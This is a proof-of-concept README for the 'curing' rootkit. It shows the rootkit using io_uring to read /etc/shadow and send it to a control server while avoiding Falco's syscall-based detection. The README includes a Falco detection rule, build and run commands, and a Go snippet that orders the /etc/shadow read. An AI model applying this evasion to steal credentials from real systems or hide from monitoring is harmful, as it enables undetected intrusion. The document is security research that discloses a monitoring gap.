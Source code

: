 # POC bypassing Falco

As a POC, we will bypass Falco by running the latest version Falco on the machine with the following rules:

* Detect any TCP connection attempts to port 8888
* Detect access to /etc/shadow 

## Running Falco
Let's start by running Falco on the machine where `curing` is running.

To run Falco, we will use the following command:
```shell
docker run --rm -i -t --name falco --privileged  \
    -v $(pwd)/falco_custom_rules.yaml:/etc/falco/falco_rules.local.yaml \
    -v /var/run/docker.sock:/host/var/run/docker.sock \
    -v /dev:/host/dev -v /proc:/host/proc:ro -v /boot:/host/boot:ro \
    -v /lib/modules:/host/lib/modules:ro -v /usr:/host/usr:ro -v /etc:/host/etc:ro \
    falcosecurity/falco-no-driver:0.39.2 falco
```

The `falco_custom_rules.yaml` file contains the following rule to detect any TCP connection attempts to port 8888 (detecting access to `/etc/shadow` is built-in):
```yaml
- rule: TCP Connection to Port 8888
  desc: Detect any TCP connection attempts to port 8888
  condition: >
    evt.type=connect and 
    evt.dir=< and 
    fd.type=ipv4 and 
    fd.sport=8888 and 
    fd.l4proto=tcp
  output: >
    TCP connection to port 8888 detected 
    (process=%proc.name 
    command=%proc.cmdline 
    connection=%fd.name 
    container=%container.info 
    user=%user.name)
  priority: NOTICE
  tags: [network]
```

## Showing regular Falco alerts
To show that Falco is working, we ran `nc` to connect to port 8888 and access `/etc/shadow`:


https://github.com/user-attachments/assets/49560105-76e3-4972-adcf-cb325b234cbe


We can see that Falco detected the connection to port 8888 and access to `/etc/shadow` as expected.

## Bypassing Falco
To bypass Falco, we will run the `curing` client and server.
To build the `curing` client and server, we will use the following commands:
```shell
make all
```

To run the `curing` server, we will use the following command:
```shell
./build/server
```

To control the server port, edit the server.port in `cmd/config.json`, the default port is 8888.

To run the `curing` client, we will use the following command:
```shell
./build/client
```
It will read the `cmd/config.json` file to connect to the server so be sure to edit the details in the file.

For the sake of this POC, the server is just going to send one command to the client to read `/etc/shadow` and send it back to the server.
```go
commands := []common.Command{
  common.ReadFile{Id: "read shadow", Path: "/etc/shadow"},
}
```

The `curing` rookit is using `io_uring` to connect to the server and to read the file `/etc/shadow`, this means that "0" syscalls (which are related to the attack) are made and Falco will not detect the attack.




https://github.com/user-attachments/assets/858dbc60-ffa4-445e-a354-a08caa83b102


As we can see, Falco is not detecting the attack because the attack is not using any syscalls that Falco is monitoring.

## Conclusion
In this POC, we bypassed Falco by using `io_uring` to connect to the server and read the file `/etc/shadow`. This means that Falco is not able to detect the attack because the attack is not using any syscalls that Falco is monitoring, this attack technique is also bypassing other security tools that are monitoring syscalls such as `tetragon` by Cilium.
